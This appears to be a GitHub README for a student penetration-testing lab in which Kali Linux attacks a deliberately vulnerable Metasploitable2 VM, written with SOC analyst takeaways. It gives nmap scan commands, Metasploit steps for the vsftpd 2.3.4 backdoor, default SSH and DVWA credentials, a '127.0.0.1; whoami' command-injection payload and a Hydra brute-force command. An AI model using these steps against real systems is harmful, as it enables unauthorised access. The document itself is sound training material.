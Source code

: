 # Kali Linux & Metasploitable2: Penetration Testing Lab

This project simulates an internal network attack scenario using Kali Linux (attacker) and Metasploitable2 (target). It demonstrates core reconnaissance, exploitation, and post-exploitation techniques aligned with SOC Analyst learning objectives.

---

## 📋 Table of Contents

- [Lab Setup](#lab-setup)
- [Phase 1: Reconnaissance](#phase-1-reconnaissance)
  - [Basic Nmap Scan](#basic-nmap-scan)
  - [Service Version Detection](#service-version-detection)
  - [Vulnerability Detection](#vulnerability-detection)
- [Phase 2: Exploitation](#phase-2-exploitation)
  - [FTP Exploit – vsftpd 2.3.4 Backdoor](#ftp-exploit--vsftpd-234-backdoor-cve-2011-2523)
  - [SSH Exploit](#ssh-exploit)
  - [HTTP Exploit – DVWA Command Injection](#http-exploit--dvwa-command-injection)
  - [HTTP Brute-Force Attack – DVWA Login](#http-brute-force-attack--dvwa-login)

---

## 🛠️ Lab Setup

| Component    | Details                  |
|--------------|--------------------------|
| Attacker     | Kali Linux (UTM VM)      |
| Target       | Metasploitable2 (UTM VM) |
| Network Mode | Shared NAT / Bridged     |
| Connectivity | Confirmed via ping       |

---

## Phase 1: Reconnaissance

### Target IP: `192.168.64.3`

---
### Scan Files
These are the original Nmap scan output files I used for analysis:

* [basic-scan.txt](./basic-scan.txt)
* [version-scan.txt](./version-scan.txt)
* [vuln-scan.txt](./vuln-scan.txt)

---

### Basic Nmap Scan

```bash
nmap -sS -T4 192.168.64.3 -oN basic-scan.txt
```
**Summary of Open Ports:**
- 21 (FTP)
- 22 (SSH)
- 80 (HTTP)
  
#### Service Version Detection
```bash
nmap -sS -sV -T4 192.168.64.3 -oN version-scan.txt
```
Summary:
- FTP: vsftpd 2.3.4
- SSH: OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
- HTTP: Apache 2.2.8
  
#### Vulnerability Detection
```bash
nmap --script vuln -T4 192.168.64.3 -oN vuln-scan.txt
```
**Summary:** 
- Port 21 (FTP) - VULNERABLE to vsftpd 2.3.4 backdoor (CVE-2011-2523)
- Port 80 (HTTP) - Apache version outdated with multiple CVEs


---

## Phase 2: Exploitation

### FTP Exploit - vsftpd 2.3.4 Backdoor (CVE-2011-2523)

#### Tool Used: Metasploit Framework
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.64.3
exploit
```

**Result:** 
* Successful shell access as `root`
* Verified with `whoami`


---

### SSH Exploit

**Target IP:** 192.168.64.3  
**Tool Used:** Native OpenSSH Client
```bash
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.64.3
```

**Result:** 
* Successful login using default credentials:
  * Username: `msfadmin`
  * Password: `msfadmin`
* Access confirmed with:
  `whoami`

---

#### Compatibility Issue: Legacy SSH Key Algorithms

**Problem Encountered**
```Unable to negotiate with 192.168.64.3 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss```

**Solution**
```ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.64.3```

**Lessons Learned:**
Modern SSH clients disable depreciated algorithms by default. Lab environments often require these legacy options to connect. SOC teams should watch for deprecated algorithm negotiation in logs as potential indicators of legacy or malicious activity.


---

### HTTP Exploit – DVWA Command Injection

**Target URL:** `http://192.168.64.3/dvwa/vulnerabilities/exec/`
**Authentication:**  
- Username: `admin`  
- Password: `password`

**DVWA Configuration:**
- Set security level to `Low` under the "DVWA Security" tab

**Recon Tool Used:** [Nikto](https://github.com/sullo/nikto)  
**Scan Output:** [nikto-scan.txt](./nikto-scan.txt)

Nikto was used to identify accessible directories and common web vulnerabilities. This helped uncover `/phpinfo.php` and `/test/`, indicating potential weak points in the Apache web server.

**Exploit Method:**
- Injected shell command via the IP input field:
```bash
127.0.0.1; whoami
```

**Output:**
```PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.014 ms
...
www-data
```

***Result:***
* Successfully executed `whoami`
* Confirmed remote command execution vulnerability


---

### HTTP Brute-Force Attack – DVWA Login

**Target URL:** `http://192.168.64.3/dvwa/login.php` 
**Login Type:** HTTP POST Form  
**Tool Used:** Hydra

**Command:**
```bash
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt 192.168.64.3 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
```

**Result:**
```[80][http-post-form] host: 192.168.64.3   login: admin   password: password```

**Summary:** 
* Performed a dictionary brute-force attack
* Login credentials were discovered
* Demonstrated the importance of strong password credential policies


**SOC Analyst Takeaways**
Brute-force activity can be detected via repeated login failures, especially to web apps or SSH
Exploits often rely on outdated software or weak credentials
Key log indicators: POST attempts to login pages, multiple SSH attempts, legacy crypto negotiations
Defenses: Rate limiting, MFA, updated services, IDS/IPS, log monitoring
